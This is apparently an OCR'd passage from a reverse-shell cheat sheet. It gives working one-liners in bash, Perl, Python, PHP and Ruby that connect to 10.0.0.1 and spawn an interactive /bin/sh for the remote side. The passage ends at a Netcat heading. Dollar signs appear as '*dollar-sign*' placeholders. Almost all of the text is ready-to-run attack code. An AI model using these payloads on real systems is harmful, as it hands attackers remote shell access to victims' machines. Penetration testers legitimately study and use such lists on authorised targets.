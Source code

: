 ```

bash -i >& /dev/tcp/10.0.0.1/8080 0>&1

```

#### PERL

Here’s a shorter, feature-free version of the perl-reverse-shell:

```

perl -e 'use 
Socket;*dollar-sign*i="10.0.0.1";*dollar-sign*p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));
if(connect(S,sockaddr_in(*dollar-sign*p,inet_aton(*dollar-sign*i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

```
There’s also an alternative PERL revere shell here.

#### Python

This was tested under Linux Python 2.7

```

python -c 'import pty; pty.spawn("/bin/sh")'

python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));
os.dup2(s.fileno(),0);os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

```

#### PHP

This code assumes that the TCP connection uses file descriptor 3.  This worked on my test system.  If it doesn’t work, try 4, 5, 6…

```
php -r '*dollar-sign*sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```

If you want a .php file to upload, see the more featureful and robust php-reverse-shell.

#### Ruby

```
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

#### Netcat

Netcat is rarely present on production systems and even if it is there are several version of netcat, some of which don’t support the -e option.
